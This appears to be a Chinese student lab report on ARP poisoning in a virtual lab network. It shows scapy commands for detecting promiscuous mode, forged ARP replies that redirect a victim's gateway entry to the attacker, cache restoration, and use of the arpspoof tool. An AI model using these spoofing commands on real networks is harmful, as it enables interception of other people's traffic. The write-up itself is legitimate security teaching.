 ## 

## 实验环境 Y

<img src="images/image-20201009143911998.png" alt="image-20201009143911998" style="zoom: 80%;" />

如图所示网络中的节点基本信息如下：

* 攻击者主机
  * 08:00:27:e0:ca:33 / eth0
  * 192.168.1.98
* 网关
  * 08:00:27:92:fb:b7 / enp0s8
  * 192.168.1.1
* 受害者主机
  * 08:00:27:79:3c:11 / eth0
  * 192.168.1.15

![网络配置](images/%E7%BD%91%E7%BB%9C%E9%85%8D%E7%BD%AE.png)

## 试验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 试验一

### 在受害者主机未开启混杂模式的情况下试验

```
# 在受害者主机
kate@bogon:~$ ip  link  show eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:79:3c:11 brd ff:ff:ff:ff:ff:ff
    
# 在攻击者主机开启scapy并执行下述代码
kate@bogon:~$ sudo scapy
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
      .SYPACCCSASYY  
P /SCS/CCS        ACS | Welcome to Scapy
       /A          AC | Version 2.4.3
     A/PS       /SPPS |
        YP        (SC | https://github.com/secdev/scapy
       SPS/A.      SC |
   Y/PACC          PP | Have fun!
    PY*AYC        CAA
         YYCY//SCYP   using IPython 7.16.1
>>> pkt = promiscping("192.168.1.15")                                      
Begin emission:
Finished sending 1 packets.
```

### 在受害者主机开启混杂模式

```

kate@bogon:~$ sudo ip link set eth0 promisc on
[sudo] kate 的密码：
kate@bogon:~$ ip  link  show eth0
2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:79:3c:11 brd ff:ff:ff:ff:ff:ff
kate@bogon:~$ 
```

![image-20201009094051431](images/%E5%AE%9E%E9%AA%8C%E4%B8%80%E7%BB%93%E6%9E%9C.png)

### 在受害者主机开启混杂模式之后再次试验

```
kate@bogon:~$ sudo scapy
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
      .SYPACCCSASYY  
P /SCS/CCS        ACS | Welcome to Scapy
       /A          AC | Version 2.4.3
     A/PS       /SPPS |
        YP        (SC | https://github.com/secdev/scapy
       SPS/A.      SC |
   Y/PACC          PP | Have fun!
    PY*AYC        CAA
         YYCY//SCYP   using IPython 7.16.1
>>> pkt = promiscping("192.168.1.15")                                      
Begin emission:
Finished sending 1 packets.
```

**差异**:在受害者主机开启混杂模式之后，攻击者主机在执行`pkt = promiscping("192.168.1.15")`时可以收到一个answer的数据包，而当受害者主机没有开启混杂模式时，攻击者主机没有收到回复数据包。

补充：混杂模式下受害者主机对于所有的数据都会接受，而非混杂模式下受害者主机只接受发往自己的MAC地址的数据。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 毒化受害者主机的ARP缓存

* 实验过程

```
>>> arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.1.1")        
>>> arpbroadcast.show()                                                                
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:e0:ca:33
     psrc= 192.168.1.98
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.1

>>> recved = srp(arpbroadcast, timeout=2)                                    
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> gw_mac = recved[0][0][1].hwsrc                                           
>>> gw_mac                                                                   
'08:00:27:92:fb:b7'
>>> arpspoofed=Ether()/ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.15", hwd
...: st="08:00:27:e0:ca:33")                                                 
>>> sendp(arpspoofed)                                                        
.
Sent 1 packets.
>>> 
```

* 试验结果

![image-20201009115459648](images/image-20201009115459648.png)

### 恢复受害者主机的 ARP 缓存记录

* 过程

```
>>> restorepkt1=Ether()/ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.15", hwsrc="08:0
...: 0:27:92:fb:b7",hwdst="08:00:27:79:3c:11")                                        
>>> restorepkt1.show()                                                                
###[ Ethernet ]### 
  dst= 08:00:27:79:3c:11
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:92:fb:b7
     psrc= 192.168.1.1
     hwdst= 08:00:27:79:3c:11
     pdst= 192.168.1.15

>>> sendp(restorepkt1,count=100,inter=0.2)                                            
.......................................................................
```

结果：

```
root@bogon:/home/kate# ip neigh show
192.168.1.1 dev eth0 lladdr 08:00:27:92:fb:b7 REACHABLE
192.168.1.98 dev eth0 lladdr 08:00:27:e0:ca:33 STALE
```

![image-20201009121218888](images/image-20201009121218888.png)

### 伪装受害者给网关发送 ARP 响应

```
>>> restorepkt2=Ether()/ARP(op=2, psrc="192.168.1.15", pdst="192.168.1.1", hwsrc="08:0
...: 0:27:79:3c:11",hwdst="08:00:27:92:fb:b7") 

>>> restorepkt2.show()                                                                
###[ Ethernet ]### 
  dst= 08:00:27:92:fb:b7
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:79:3c:11
     psrc= 192.168.1.15
     hwdst= 08:00:27:92:fb:b7
     pdst= 192.168.1.1 

>>> sendp(restorepkt2,count=100,inter=0.2)                                            
....................................................................................................
Sent 100 packets.
```

## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

* 下载工具

```
apt-get install dsniff ssldump
root@bogon:/home/kate# arpspoof
Version: 2.4
Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
root@bogon:/home/kate# 

```

* 使用arpspoof工具之前受害者主机的ARP缓存状况：

![image-20201009133831041](images/image-20201009133831041.png)

* 使用`arpspoof -i eth0 -t 192.168.1.15 192.168.1.1`攻击之后受害者主机的ARP缓存状态

![image-20201009134034014](images/image-20201009134034014.png)